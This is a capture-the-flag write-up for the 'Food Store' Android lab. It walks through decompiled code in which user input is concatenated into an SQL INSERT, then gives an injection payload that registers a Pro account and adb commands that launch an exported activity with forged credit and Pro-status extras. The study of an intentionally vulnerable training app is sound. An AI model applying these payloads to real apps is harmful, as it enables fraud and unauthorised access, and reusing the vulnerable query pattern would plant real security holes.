 ```
title: Food Store - Mobile Hacking Lab
date: 2025-2-1 00:00:00 +/-TTTT
categories: [Mobile Hacking Lab]
tags: [mobile hacking lab, writeup, mobile penetration testing, android]     # TAG names should always be lowercase
```

<br />

### Introduction

Welcome to the **Android App Security Lab: SQL Injection Challenge**! Dive into the world of cybersecurity with our hands-on lab. This challenge is centered around a fictitious "Food Store" app, highlighting the critical security flaw of SQL Injection (SQLi) within the app's framework.

<br />

### Objective

Exploit a SQL Injection Vulnerability: Your mission is to manipulate the signup function in the "Food Store" Android application, allowing you to register as a Pro user, bypassing standard user restrictions.

<br />



The sign up screen enables the creation of a new user account by entering a username, password, and address. Upon successful sign-up, a toast message is displayed confirming the account creation.

<br />

![](/assets/img/mhl/FoodStore/1.png)





<br /><br />

The sign-in screen enables you to log in using your username and password. Upon successful sign-in, the product listing screen is displayed.

![](/assets/img/mhl/FoodStore/2.png)

<br /><br />



The product listing screen shows user information and allows you to order products using credits. A standard account has a limited number of credits available for placing orders.

![](/assets/img/mhl/FoodStore/4.png)





<br /><br />

![](/assets/img/mhl/FoodStore/5.png)





<br /><br />

**Analyzing the application using JADX**

From: AndroidManifest.xml

```xml
<activity
    android:name="com.mobilehackinglab.foodstore.Signup"
    android:exported="false"/>
<activity
    android:name="com.mobilehackinglab.foodstore.MainActivity"
    android:exported="true"/>
<activity
    android:name="com.mobilehackinglab.foodstore.LoginActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```



<br />

From: com.mobilehackinglab.foodstore.Signup

```java
User newUser = new User(i, obj, obj2, editText2.getText().toString(), false, 1, null);
dbHelper.addUser(newUser);
Toast.makeText(this$0, "User Registered Successfully", 0).show();
```

<br />



From: com.mobilehackinglab.foodstore.DBHelper

```java
public final class DBHelper extends SQLiteOpenHelper {
    public static final String DATABASE_NAME = "userdatabase.db";
    public static final int DATABASE_VERSION = 1;


    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase db) {
        Intrinsics.checkNotNullParameter(db, "db");
        db.execSQL("CREATE TABLE users (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    username TEXT,\n    password TEXT,\n    address TEXT,\n    isPro INTEGER\n    \n    \n)");
    }

    
    
    
        public final void addUser(User user) {
        Intrinsics.checkNotNullParameter(user, "user");
        SQLiteDatabase db = getWritableDatabase();
        byte[] bytes = user.getPassword().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes, "this as java.lang.String).getBytes(charset)");
        String encodedPassword = Base64.encodeToString(bytes, 0);
        String Username = user.getUsername();
        byte[] bytes2 = user.getAddress().getBytes(Charsets.UTF_8);
        Intrinsics.checkNotNullExpressionValue(bytes2, "this as java.lang.String).getBytes(charset)");
        String encodedAddress = Base64.encodeToString(bytes2, 0);
        String sql = "INSERT INTO users (username, password, address, isPro) VALUES ('" + Username + "', '" + encodedPassword + "', '" + encodedAddress + "', 0)";
        db.execSQL(sql);
        db.close();
    }
}
```

The above code inserts a new entry into the **users** table with the following values:

- **Username**: User-provided username
- **Password**: Base64-encoded password
- **Address**: Base64-encoded address
- **isPro**: Set to **0**, which represents **false**

For the example user, the values are:

- **Username**: `test`
- **Password**: `dGVzdA==` (Base64-encoded **test**)
- **Address**: `RWd5cHQ=` (Base64-encoded **Egypt**)
- **isPro**: `0` (**false**)

This translates into the following SQL statement:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test', 'dGVzdA==', 'RWd5cHQ=', 0);
```

<br />

![](/assets/img/mhl/FoodStore/3.png)



<br /><br />

**Exploit the SQLi**

we need to create a new user with base64 password and address and 

```javascript
test2','MTIzNA==','RWd5cHQ=',1);#
```

<br />

Should result in the following query:

```sql
INSERT INTO users (username, password, address, isPro) VALUES ('test2','MTIzNA==','RWd5cHQ=',1);# ', 'dGVzdA==', 'RWd5cHQ=', 0)
```

The values will be:

- **Username**: `test2`
- **Password** (Base64-encoded **1234**): `MTIzNA==`
- **Address**: Any address in Base64 (for example **Egypt**): `RWd5cHQ=`
- **isPro**: `1` (**true**, indicating a pro user)

<br />

![](/assets/img/mhl/FoodStore/6.png)



<br /><br />

Login with the new user:

Now we are a Pro user

![](/assets/img/mhl/FoodStore/7.png)





<br /><br />



**Authentication Bypass**

It is important to note that **MainActivity**, intended to be accessible only after a successful sign-in, was **exported**, making it possible to access it directly.

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity
```

<br />

![](/assets/img/mhl/FoodStore/8.png)



<br /><br />

From: com.mobilehackinglab.foodstore.LoginActivity

```java
public static final void onCreate$lambda$1(EditText $usernameEditText, EditText $passwordEditText, LoginActivity this$0, View it) {
    Intrinsics.checkNotNullParameter(this$0, "this$0");
    String inputUsername = $usernameEditText.getText().toString();
    String inputPassword = $passwordEditText.getText().toString();
    User user = this$0.getDbHelper().getUserByUsername(inputUsername);
    if (user == null || !Intrinsics.areEqual(user.getPassword(), inputPassword)) {
        Toast.makeText(this$0, "Invalid Credentials", 0).show();
        return;
    }
    Toast.makeText(this$0, "Login Successful", 0).show();
    int credit = user.isPro() ? 10000 : 100;
    Intent intent = new Intent(this$0, (Class<?>) MainActivity.class);
    intent.putExtra("USERNAME", inputUsername);
    intent.putExtra("USER_CREDIT", credit);
    intent.putExtra("IS_PRO_USER", user.isPro());
    intent.putExtra("USER_ADDRESS", user.getAddress());
    this$0.startActivity(intent);
    this$0.finish();
}
```

a **ternary operator** to assign **credits** based on the user type:

- If the user is **Pro** (`user.isPro()` returns **true**), the user gets **10,000 credits**.
- If the user is **Normal** (`user.isPro()` returns **false**), the user gets only **100 credits**.

The user's information, including username, credits, address, and account type, is passed to the next activity through **Intent extras**.

<br />

**adb**

```bash
adb shell am start -n com.mobilehackinglab.foodstore/.MainActivity --es "USERNAME" "test3" --ei "USER_CREDIT" 133337 --ez "IS_PRO_USER" true --es "USER_ADDRESS" "Egypt"
```

<br />

![](/assets/img/mhl/FoodStore/9.png)









